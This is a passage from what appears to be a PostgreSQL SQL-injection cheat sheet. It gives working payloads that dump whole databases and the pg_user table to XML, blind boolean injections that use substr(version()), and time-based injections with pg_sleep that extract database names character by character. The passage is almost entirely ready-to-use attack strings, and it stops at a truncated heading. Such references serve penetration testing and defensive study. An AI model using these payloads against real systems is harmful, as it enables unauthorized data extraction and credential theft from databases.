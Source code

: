 ```sql
SELECT query_to_xml('select * from pg_user',true,true,''); -- returns all the results as a single xml row
```

The `query_to_xml` above returns all the results of the specified query as a single result. Chain this with the [PostgreSQL Error Based](#postgresql-error-based) technique to exfiltrate data without having to worry about `LIMIT`ing your query to one result.

```sql
SELECT database_to_xml(true,true,''); -- dump the current database to XML
SELECT database_to_xmlschema(true,true,''); -- dump the current db to an XML schema
```

Note, with the above queries, the output needs to be assembled in memory. For larger databases, this might cause a slow down or denial of service condition.


## PostgreSQL Blind

### PostgreSQL Blind With Substring Equivalent

| Function    | Example                                         |
| ----------- | ----------------------------------------------- | 
| `SUBSTR`    | `SUBSTR('foobar', <START>, <LENGTH>)`           |
| `SUBSTRING` | `SUBSTRING('foobar', <START>, <LENGTH>)`        | 
| `SUBSTRING` | `SUBSTRING('foobar' FROM <START> FOR <LENGTH>)` | 

Examples:

```sql
' and substr(version(),1,10) = 'PostgreSQL' and '1  -- TRUE
' and substr(version(),1,10) = 'PostgreXXX' and '1  -- FALSE
```


## PostgreSQL Time Based

#### Identify Time Based

```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

#### Database Dump Time Based

```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

#### Table Dump Time Based
